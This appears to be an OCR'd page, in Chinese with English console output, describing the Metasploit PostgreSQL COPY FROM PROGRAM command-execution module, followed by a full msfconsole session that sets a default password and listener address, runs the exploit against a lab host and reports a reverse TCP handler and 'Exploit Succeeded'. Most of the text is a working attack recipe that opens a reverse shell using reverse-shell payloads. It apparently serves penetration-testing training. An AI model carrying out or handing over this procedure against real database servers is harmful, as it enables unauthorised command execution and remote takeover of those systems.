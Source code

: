 PostgreSQL COPY FROM PROGRAM 命令执行

安装运行 Postgres 9.3 及以上版本的系统具有功能，允许超级用户和具有 'pg_execute_server_program' 权限的用户通过 COPY 命令与外部程序进行输入输出。这使得可以任意执行命令，就好像您有控制台访问权限一样。此模块尝试创建一个新表，然后在将命令输出复制到表中的上下文中执行系统命令。此模块应该适用于所有运行版本为 9.3 及以上的 Postgres 系统。对于 Linux 和 OSX 系统，使用目标 1 以及像 cmd/unix/reverse_perl 这样的 cmd 载荷。对于 Windows 系统，使用目标 2 以及像 cmd/windows/powershell_reverse_tcp 这样的 powershell 载荷。或者，目标 3 可以用于执行通用命令，比如 web_delivery meterpreter powershell 载荷或其他自定义命令。

```
msf6 auxiliary(admin/postgres/postgres_readfile) > use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > show options

Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   DATABASE           template1        yes       The database to authenticate against
   DUMP_TABLE_OUTPUT  false            no        select payload command output from table (For Debugging)
   PASSWORD           postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS             10.10.205.125    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              5432             yes       The target port (TCP)
   TABLENAME          fNUOAAmXC        yes       A table name that does not exist (To avoid deletion)
   USERNAME           postgres         yes       The username to authenticate as


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set PASSWORD password
PASSWORD => password
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set LHOST 10.18.72.222
LHOST => 10.18.72.222
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > run

[*] Started reverse TCP handler on 10.18.72.222:4444 
[*] 10.10.205.125:5432 - 10.10.205.125:5432 - PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit
[*] 10.10.205.125:5432 - Exploiting...
[+] 10.10.205.125:5432 - 10.10.205.125:5432 - fNUOAAmXC dropped successfully
[+] 10.10.205.125:5432 - 10.10.205.125:5432 - fNUOAAmXC created successfully
[+] 10.10.205.125:5432 - 10.10.205.125:5432 - fNUOAAmXC copied successfully(valid syntax/command)
[+] 10.10.205.125:5432 - 10.10.205.125:5432 - fNUOAAmXC dropped successfully(Cleaned)
[*] 10.10.205.125:5432 - Exploit Succeeded
```